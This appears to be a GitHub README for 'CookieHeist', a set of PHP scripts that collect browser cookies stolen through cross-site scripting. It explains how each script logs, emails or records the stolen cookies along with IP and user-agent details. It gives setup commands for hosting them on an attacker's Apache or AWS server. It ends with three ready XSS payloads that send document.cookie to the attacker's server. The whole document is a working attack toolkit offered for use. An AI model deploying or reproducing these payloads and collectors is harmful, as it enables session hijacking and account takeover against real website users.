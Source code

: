 # CookieHeist
PHP Cookie Stealing Scripts for use in XSS

1. Cookiesteal-simple.php - Records whatever "c" parameter holds, in example case the document.cookie string, writes value to log.txt. 

2. Cookiemail.php - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (verbose) - Collects the IP address, port number, host(usually computer-name), user agent and cookie.

## Usage
1. On the remote attacker machine, start the webserver (Apache2 in example):

sudo service apache2 start

2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine


git clone https://github.com/RxSec/CookieHeist


cd CookieHeist


sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/


sudo scp log.txt username@AttackMachine:/var/www/html/

**AWS Version**:

scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command

ps aux | grep httpd

Output should be similar to this:

ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd

So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:

sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
